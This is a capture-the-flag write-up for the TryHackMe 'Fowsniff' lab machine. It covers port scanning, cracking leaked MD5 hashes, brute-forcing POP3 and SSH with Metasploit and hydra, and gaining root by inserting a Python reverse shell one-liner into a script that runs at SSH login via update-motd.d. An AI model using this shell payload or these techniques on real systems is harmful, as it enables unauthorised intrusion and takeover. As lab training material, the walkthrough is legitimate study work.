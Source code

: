 # Fowsniff CTF

Difficulty: Easy

![](https://tryhackme-images.s3.amazonaws.com/room-icons/97b218eed9688e9a5cbe136714b86288.jpeg)


# Introduction

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

This will be structured to go through what you need to do, step by step. Make sure you are [connected to our network](http://tryhackme.com/access)

Credit to [berzerk0](https://twitter.com/berzerk0) for creating this machine. This machine is used here with the explicit permission of the creator <3

# Enumeration
First off we kick off our recon with an nmap scan to discover open ports and services running on the target machine.

Nmap scan result:

![](attachments/20240108155706.png)

Here we can see there are a number of ports discovered and we have some open ports. First up let's checkout the website on port 80.

![](attachments/20240108155841.png)

reading through the webpage we can see the company has suffered a data breach and some credentials have been exposed. We also have some vital info on the webpage.

![](attachments/20240108160134.png)

Let's take a look at their twitter/X page:

![](attachments/20240108160344.png)

We have a username and what seems to be a password hash for the sysadmin which can later be cracked. We also have a pastebin link, let's take a look.

![](attachments/20240108160531.png)

We have a backup for password dump. Navigating to the link:

![](attachments/20240108160713.png)

We have the MD5 password hashes and their respective usernames.

Time to crack these hashes with JohntheRipper:

![](attachments/20240108161007.png)

we now have the passwords for the users.

Going back to tryhackme, Question 6 asks:

Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
![](attachments/20240109152402.png)

After setting the appropriate options: 
USER_FILE - create a separate file for the usernames captured and set it using `set USER_FILE usernames.txt`
PASS_FILE - create a separate file for the passwords captured and set it using `set PASS_FILE passwords.txt`
RHOSTS - Target IP address `set RHOST <IP>`
Then run it using `exploit`

![](attachments/20240109152329.png)
We successfully get a hit and can login using the credentials

**Question**: Can you connect to the pop3 service with her credentials? What email information can you gather?

Using netcat:

![](attachments/20240109153011.png)

**Question**: Looking through her emails, what was a temporary password set for her?

![](attachments/20240109153416.png)

**Question**: In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

If you're lazy like me LOL you can easily just use hydra to get this if you're stuck.

![](attachments/20240109154352.png)

Using the list of usernames and  the known password we get our answer

# Initial Access

![](attachments/20240109154601.png)

**Question**: Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

![](attachments/20240109154744.png)

Using this command `find / -type f -group users -perm /g=x 2>/dev/null` we can find the file:

![](attachments/20240109154948.png)

# Privilege Escalation

**Question**: Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`
Other reverse shells: [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


![](attachments/20240109163053.png)

**Instructions**:

If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

Here's the banner always displayed on every login:

![](attachments/20240109162512.png)

Taking a look at the **/etc/update-motd.d/00-header**

![](attachments/20240109162612.png)

we can see it executes this script so we should expect to catch a shell when we try to re-login. Let's try that, First up setup a netcat listener using `nc -lvnp <PORT>` 

![](attachments/20240109162751.png)

we have root access!

![](attachments/20240109162937.png)

GGs 🤝. Thanks for Reading and Have a nice day!